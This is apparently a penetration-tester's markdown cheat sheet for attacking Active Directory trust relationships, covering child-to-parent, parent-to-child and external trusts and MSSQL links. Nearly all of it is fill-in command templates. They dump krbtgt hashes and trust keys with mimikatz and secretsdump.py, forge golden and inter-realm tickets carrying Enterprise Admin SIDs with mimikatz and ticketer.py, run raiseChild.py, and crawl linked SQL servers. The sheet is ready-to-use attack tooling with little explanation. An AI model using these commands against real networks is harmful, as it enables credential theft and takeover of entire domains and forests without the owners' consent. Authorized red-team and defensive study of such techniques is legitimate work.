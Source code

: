 # Trusts

## Enumeration
- `nltest.exe /trusted_domains`
- `([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()`
- `Get-DomainTrust -Domain <domain>`
- `Get-DomainTrustMapping`
- `ldeep ldap -u <user> -p <password> -d <domain> -s ldap://<dc_ip> trusts`
- Get Domains SID
  - `Get-DomainSID -Domain <domain> Get-DomainSID -Domain <target_domain>` 
  - `lookupsid.py -domain-sids <domain>/<user>:<password>'@<dc> 0 lookupsid.py -domain-sids <domain>/<user>:<password>'@<target_dc> 0`

## Child->Parent
- Trust Key >>> PassTheTicket
  - `mimikatz lsadump::trust /patch`
    - `mimikatz kerberos::golden /user:Administrator /domain:<domain> /sid:<domain_sid> /aes256:<trust_key_aes256> /sids:<target_domain_sid>-519 /service:krbtgt /target:<target_domain> /ptt`
  - `secretsdump.py -just-dc-user '<parent_domain>$'   <domain>/<user>:<password>@<dc_ip>`
    - `ticketer.py -nthash <trust_key> -domain-sid <child_sid> -domain <child_domain> -extra-sid <parent_sid>-519 -spn krbtgt/<parent_domain> trustfakeuser`

- Golden Ticket >>> PassTheTicket
  - `mimikatz lsadump::dcsync /domain:<domain> /user:<domain>\krbtgt`
    - `mimikatz kerberos::golden /user:Administrator /krbtgt:<HASH_KRBTGT> /domain:<domain> /sid:<user_sid> /sids:<RootDomainSID-519> /ptt`
  - `raiseChild.py <child_domain>/<user>:<password>`
  - `ticketer.py -nthash <child_krbtgt_hash> -domain-sid <child_sid> -domain <child_domain> -extra-sid <parent_sid>-519 goldenuser`

- Unconstrained delegation
  - coerce parent_dc on child_dc domain >>> unconstrained delegation

## Parent->Child
- same as Child to parent

## External Trust 
- DomainA <--> DomainB trust (B trust A, A trust B)
  - from A to B FOREST_TRANSITIVE
    - password reuse >>> lat move (creds/pth/...)
    - Foreign group and users >>> ACL
      - Users with foreign Domain Group Membership
        - `MATCH p=(n:User)-[:MemberOf]->(m:Group) WHERE n.domain="<domain>" AND m.domain<>n.domain RETURN p`
      - Group with foreign Domain Group Membership
        - `MATCH p=(n:Group {domain:"<domain>"})-[:MemberOf]->(m:Group) WHERE m.domain<>n.domain AND n.name<>m.name RETURN p`
    - SID History on B >>> PassTheTicket
      - Golden ticket
        - `mimikatz lsadump::dcsync /domain:<domain> /user:<domain>\krbtgt`
          - `mimikatz kerberos::golden /user:Administrator /krbtgt:<HASH_KRBTGT> /domain:<domain> /sid:<user_sid> /sids:<RootDomainSID>-<GROUP_SID_SUP_1000> /ptt`
        - `ticketer.py -nthash <krbtgt> -domain-sid <domain_a> -domain <domain_a> -extra-sid <domain_b_sid>-<group_sid sup 1000> fakeuser`
      - Trust ticket
        - `secretsdump.py -just-dc-user '<domainB>' <domainA>/<user>:'<password>'@<dc_a>`
          - `ticketer.py -nthash <trust_hash> -domain-sid <sid_a> -domain <domain_a> -extra-sid <domain_b_sid>-<group_sid sup 1000> -spn krbtgt/<domain_a> fakeuser`
    - ADCS abuse >>> ADCS
  - from A to B is FOREST_TRANSITIVE|TREAT_AS_EXTERNAL
      - Unconstrained delegation
        - coerce dc_b on dc_a >>> unconstrained delegation
        
- DomainA <-- DomainB trust (B trust A / A access B)
  - Same as double trust, but no unconstrained delegation as B can't connect to A

- DomainA --> DomainB trust (A trust B / B access A)
  - password reuse >>> lat move (creds/pth/...)

## Mssql links >>> MSSQL
- MSSQL trusted links doesn't care of trust link
  - `Get-SQLServerLinkCrawl -username <user> -password <pass> -Verbose -Instance <sql_instance>`
  - `mssqlclient.py -windows-auth <domain>/<user>:<password>@<ip>`
    - trustlink
      - sp_linkedservers
        - use_link